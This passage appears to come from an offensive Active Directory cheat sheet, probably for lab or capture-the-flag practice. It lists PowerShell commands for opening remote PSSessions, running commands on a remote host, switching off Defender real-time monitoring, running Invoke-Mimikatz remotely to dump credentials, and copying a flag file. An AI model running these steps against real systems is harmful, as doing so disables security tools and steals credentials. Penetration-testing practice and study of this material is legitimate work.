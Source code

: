 ```ps1
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleColletions
```

# PSSession

PSSESSION!

## New Session on PSSession

```ps1
$sess = New-PSSession -ComputerName xxx.local
```

![](https://0x4rt3mis.github.io/assets/img/active-enum/p.png)

## Commands With PSSession

```ps1
Invoke-Command -ScriptBlock {dir} -Session $sess
```

![](https://0x4rt3mis.github.io/assets/img/active-enum/p1.png)

## Scripts With PSSession

```ps1
Invoke-Command -ScriptBlock {Set-MpPreference -DisableRealtimeMonitoring $true} -Session $sess
Invoke-Command -FilePath "C:\Invoke-Mimikatz.ps1" -session $sess
```

![](https://0x4rt3mis.github.io/assets/img/active-enum/p2.png)

## Joining the Session

```ps1
Enter-PSSession $sess
```

![](https://0x4rt3mis.github.io/assets/img/active-enum/p3.png)

## Copying Files on the Session

```ps1
Copy-Item -Path C:\flag.txt -Destination 'C:\Users\Public\Music\flag.txt' -FromSession $sess
```

![](https://0x4rt3mis.github.io/assets/img/active-enum/p4.png)

# Mimikatz
